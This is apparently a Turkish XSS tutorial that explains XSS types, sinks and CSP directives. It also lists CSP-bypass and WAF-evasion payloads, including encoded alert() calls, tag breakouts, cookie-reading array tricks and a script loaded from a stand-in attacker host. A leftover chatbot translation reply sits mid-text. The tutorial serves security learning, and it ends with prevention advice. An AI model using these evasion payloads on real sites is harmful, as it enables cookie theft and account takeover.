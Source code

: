 # XSS (Cross-Site Scripting)
XSS açıkları, saldırganın kurban kullanıcı gibi davranmasına, kullanıcının yapabileceği tüm işlemleri gerçekleştirmesine ve kullanıcıya ait verilere erişmesine olanak tanır. Eğer kurban kullanıcı uygulama içinde ayrıcalıklı yetkilere sahipse, saldırgan uygulamanın tüm işlevselliği ve verileri üzerinde tam kontrol sağlayabilir.

XSS, güvenlik açığı bulunan bir web uygulamasının kullanıcıya kötü amaçlı JavaScript kodu döndürmesi ile ortaya çıkar. Bu kod kurbanın tarayıcısında çalıştığında, saldırgan kurbanın uygulama ile olan etkileşimini tamamen ele geçirebilir.

## XSS Türleri
Üç ana XSS türü vardır:

* Reflected XSS – Kötü amaçlı script, mevcut HTTP isteğinden gelir.
* Stored XSS – Kötü amaçlı script, veritabanı gibi kalıcı bir depodan gelir.
* DOM-based XSS – Açık, sunucu tarafında değil istemci tarafındaki JavaScript kodunda bulunur.

## Reflected XSS
Reflected XSS, kullanıcının girdiği verinin sunucuya ulaştıktan sonra herhangi bir filtreleme veya sanitizasyon yapılmadan HTTP yanıtına dahil edilmesiyle oluşur.

Bu açık Non-Persistent olarak sınıflandırılır; sayfa kapatıldığında veya yenilendiğinde saldırı etkisiz hale gelir.

Örnek:
```html
https://insecure-website.com/status?message=All+is+well
<p>Status: All is well.</p>
```

Saldırgan URL’yi şu şekilde değiştirebilir:
```html
https://insecure-website.com/status?message=<script>alert('XSS')</script>
```

Kurban bu bağlantıya tıkladığında, script tarayıcıda kurbanın oturumu bağlamında çalışır.

## Stored XSS
Stored XSS (Persistent XSS), saldırganın enjekte ettiği kodun kalıcı olarak depolanması ve her görüntülendiğinde çalışması durumunda oluşur. Bu veri, veritabanına, loglara veya başka kalıcı depolama alanlarına kaydedilebilir.

Stored XSS en tehlikeli XSS türüdür; çünkü sayfayı ziyaret eden her kullanıcı saldırıdan etkilenir. Ayrıca genellikle manuel müdahale olmadan temizlenemez.

Örnek:
```html
<p>Hello, this is my message!</p>
```

Saldırgan şu şekilde veri gönderebilir:
```html
<p><script>alert('XSS')</script></p>
```

Bu içerik veritabanına kaydedilir ve her görüntülendiğinde çalışır.

## DOM-based XSS
DOM-based XSS, tamamen istemci tarafında (client-side) çalışan JavaScript kodunun kullanıcı girdisini filtrelemeden DOM’a yazması ile ortaya çıkar. Bu tür XSS, sunucuya gönderilen veri üzerinden değil, tarayıcıdaki Document Object Model (DOM) manipülasyonu ile tetiklenir.

Örnek:
```js
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

Eğer saldırgan `search` alanının değerini kontrol edebiliyorsa şu payload çalışabilir:

```html
<img src=1 onerror="alert('XSS')">
```

### Source & Sink
DOM-based XSS’i anlamak için Source ve Sink kavramlarını bilmek önemlidir:

* Source: Kullanıcı girdisini alan JavaScript nesnesi (örn. URL parametresi, form input’u).
* Sink: Kullanıcı girdisini DOM’a yazan fonksiyon. Eğer filtrasyon yapılmazsa XSS oluşur.

Sık kullanılan Sink fonksiyonları:
```javascript
document.write()
element.innerHTML
element.outerHTML
```

jQuery’de sık kullanılan Sink fonksiyonları:
```javascript
add()
after()
append()
```

Bu fonksiyonlar girdiyi doğrudan DOM’a yazarsa ve giriş doğrulaması yapılmazsa sayfa XSS’e açıktır.

## Content Security Policy
Content Security Policy (CSP), Cross-Site Scripting (XSS), clickjacking gibi belirli istemci tarafı saldırılarını tespit etmek ve sınırlandırmak için ek bir korumadır. Sunucu seviyesinde yapılandırılır. Yöneticiler, bir sayfa yüklendiğinde tarayıcıların uyması gereken kuralları tanımlar. Örneğin, hangi kaynaklardan script, resim veya diğer kaynakların yüklenebileceğini belirleyebilirler.

CSP iki şekilde tanımlanabilir:
- Sunucu yanıtına Content-Security-Policy HTTP header’ı ekleyerek.
- HTML sayfalarında <meta> etiketi kullanarak.

### Content Security Policy’nin Ana Direktifleri
Bir CSP, directive adı verilen kurallardan oluşur. Her direktif, belirli kaynakların yüklenmesi ve çalıştırılması için kısıtlamalar tanımlar.

#### Directive türleri:
- Fetch directives → Tarayıcıya verilerin nasıl yükleneceğini söyler.
- Diğer direktifler → Tarama, belge ve raporlama gibi ek güvenlik kontrolleri içerir.

#### Fetch directives
- default-src → Başka bir direktif tanımlanmazsa varsayılan kaynak.
- script-src → JavaScript ve WebAssembly için geçerli kaynaklar.
- script-src-elem → <script> tag’leri için geçerli kaynaklar (yoksa script-src kullanılır).
- frame-src → <frame> ve <iframe> için geçerli kaynaklar.
- img-src → Görseller için geçerli kaynaklar.
- style-src → CSS dosyaları için geçerli kaynaklar.
- font-src → Fontlar için geçerli kaynaklar.

#### Diğer önemli direktifler
- sandbox → İçeriği izole eden sandbox modunu aktif eder (<iframe> gibi).
- require-trusted-types-for → DOM tabanlı XSS saldırılarını sınırlamak için “trusted types” kullanımını zorunlu kılar.
- trusted-types → Sadece izin verilen “Trusted Types” tanımlarını çalıştırır.
- upgrade-insecure-requests → HTTP isteklerini otomatik olarak HTTPS’e çevirir.
- frame-ancestors → <frame>, <iframe>, <object>, <embed> ve <applet> için izin verilen kaynakları sınırlar.
- form-action → Formların gönderilebileceği URL’leri sınırlar.
- base-uri → <base> etiketi için geçerli kaynakları sınırlar.

#### Fetch Directives için Olası Değerler
- 'none' → Kaynağı tamamen engeller.
- 'self' → Yalnızca aynı origin’den yükleme yapılmasına izin verir.
- [host-source] → Özel bir domain veya IP tanımlar.
- [scheme-source] → Belirli bir protokole izin verir (https:, data:, ws:, vb.).
- → Herhangi bir alt domain, host veya port’a izin verir.
- 'nonce-[değer]' → Sunucu tarafından her yanıt için üretilen rastgele bir nonce değeri.
- 'unsafe-eval' → eval() gibi metin tabanlı JavaScript çalıştırılmasına izin verir.
- 'unsafe-inline' → Inline script, event attribute (onclick) ve javascript: URL’lerine izin verir.
- Yanlış yapılandırılmış değerler, özellikle XSS saldırılarına kapı açabilir.

### Content Security Policy Örneği
Sunucu, tarayıcıya CSP’yi HTTP yanıtında iletebilir:
```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://*.example.com; object-src 'none'; img-src 'self' data: *.vaadata.com;
```

Bu konfigürasyon:
- default-src 'self' → Tanımsız tüm kaynak türleri sadece aynı origin’den yüklenir.
- script-src 'self' https://*.example.com → Sadece example.com alt domainlerinden script yüklenir.
- object-src 'none' → <object> ve <embed> tamamen yasak.
- img-src 'self' data: .example.com → Görseller sadece self, data: şeması ve example.com alt domainlerinden yüklenebilir.

### CSP Bypass Teknikleri
#### unsafe-inline kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';
```

Bu durumda inline script’ler çalışabilir:
```js
<script>alert(1);</script>
```

#### unsafe-eval kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:;
```

eval() veya Function() çağrıları yapılabilir. Ayrıca data: şemasıyla Base64 kodlu script çalıştırılabilir:
```js
<script src="data:;base64,YWxlcnQoMSk="></script>
```

#### script-src'de wildcard (*) kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *;
```

Saldırgan kendi sunucusundan script yükleyebilir:
```js
<script src="https://evil.vaadata.at"></script>
```

### object-src ve default-src eksikliği
```http
Content-Security-Policy: script-src 'self'; img-src 'self';
```

<object> etiketi ile Base64 kodlu zararlı script yüklenebilir:
```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

#### JSONP endpoint istismarı
```http
Content-Security-Policy: default-src 'none'; script-src https://hello.vaadata.com/test.js https://accounts.google.com/o/oauth2/revoke;
```

İzin verilen domainlerde JSONP endpoint varsa callback parametresi ile XSS yapılabilir:
```url
https://accounts.google.com/o/oauth2/revoke?callback=alert(1)
```
## WAF Bypass
Tabii, verdiğin içeriği teknik terimlerini koruyarak Türkçeye çevirebilirim:

---

## WAF Bypass Teknikleri

### String Kodlama (String Encoding)

#### Base64 Kodlama:
```javascript
btoa("alert(1)");  // Base64'e kodlar
atob("YWxlcnQoMSk=");  // Base64'ten tekrar "alert(1)" olarak çözer
```

#### Octal ve Heksadesimal Kodlama:
```javascript
\\141\\154\\145\\162\\164(1);  // "alert(1)" için sekizlik
\\x61\\x6c\\x65\\x72\\x74(1);  // "alert(1)" için hex
```

#### Unicode Escaping:
```javascript
al\\u0065rt(1);  // Unicode kullanarak "alert(1)"
```

#### Decimal Kodlama:
```javascript
String.fromCharCode(97, 108, 101, 114, 116)(1);  // "alert(1)" çıktısı
```

#### String Birleştirme:
```javascript
var a = "al";
var b = "ert(1)";
a.concat(b);  // "alert(1)" çıktısı
```

### Parantez Engellerini Bypass Etme
Bazı WAF’ler parantez veya alert() gibi belirli fonksiyonları engeller. Alternatifler:

#### Backtick Kullanımı:
```javascript
alert`1`;  // Parantez kullanmadan alert
```

#### Event Handler Kullanımı:
```html
<img src="nonexistent.jpg" onerror="alert(1); throw 'Error';">
```

#### Throw Syntax Kullanımı:
```javascript
throw onerror=alert, "aaaa", "bbbb";
```

### Fonksiyon Kara Listeleri ve Alternatifler
Eval() engellenmişse, aynı etkiyi sağlayacak alternatifler kullanılabilir:

```javascript
// Engellenmiş: eval("alert(1)");
// Alternatifler:
setTimeout("\\x61\\u{65}\\162t(2)");
setInterval("\\x61\\u{65}\\162t(2)");
Function("alert(2)")``;
Function("alert(2)")();
(Function("alert(2)"))();
Function("alert(1)")();  // eval kullanmadan
```

#### Unicode ile Fonksiyon Çağrısı:
```javascript
\\x61\\u{65}\\162t(2);  // alert(2) ile aynı
```

### Dot Notation ve window Engellerini Bypass Etme
Dot notation (ör. `document.cookie`) engellenmişse köşeli parantez kullan:

```javascript
document["cookie"];  // document.cookie yerine
```

Window kullanımını engelleyen WAF’ler için alternatifler:
```javascript
top;    // window.alert yerine
self;   // self veya top kullan
frames; // frames veya parent
parent;
this;
```

#### Array Kullanımı:
```javascript
[20].find(alert);   
[document.cookie].find(prompt);
```

#### Gelişmiş Array Metodları:
```javascript
[document.cookie].forEach(prompt);  
[document.cookie].filter(alert);    
[document.cookie].map(alert);
```

#### Global Object Bypass:
```javascript
globalThis;  
globalThis ;
```

### Tag Kapatma
HTML’de çalıştırılamayan tag’leri kapatıp payload ekleme:

```html
<style>/* CSS, script çalışmaz */</style><script>alert(1)</script>
<title>Page Title</title><script>alert(1)</script>
<noembed>Fallback content</noembed><script>alert(1)</script>
<template>This is template content</template><script>alert(1)</script>
<noscript>Content when JS disabled</noscript><script>alert(1)</script>
<textarea>User entered text</textarea><script>alert(1)</script>
<!-- HTML Comment --> <script>alert(1)</script>
```

### iframe ile Payload

```html
<iframe src="data:text/html, <svg onload=alert(2)>">
<iframe src="data:text/html;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+"></iframe> <!-- alert(2) -->
```

## XSS Saldırılarını Önlemek
CSP, XSS gibi zafiyetlerin kötüye kullanılmasını sınırlayan veya önleyen ek bir koruma katmanı sağlar. Bu saldırılara karşı ilk savunma hattı hâlâ input validation ve output encoding yöntemleridir. Genel olarak, CSP aşağıdaki noktalar dikkate alınmalıdır:

* Restriktif bir default-src direktifi tanımlayın.
* Sıkı bir object-src direktifi uygulayın (ideal olarak none).
* unsafe-eval ve unsafe-inline değerlerinden kaçının. Genel kural olarak, ‘unsafe’ içeren direktifleri yasaklayın; yalnızca etkilerini tam olarak anladığınızda izin verin.
* Harici sunuculardan script yüklemeye izin vermeyin.
* Wildcard (*) kullanımını en aza indirin.
* Güvenliği güçlendirmek için nonce kullanın.
* CSP’nizin sağlamlığını özel araçlar kullanarak test edin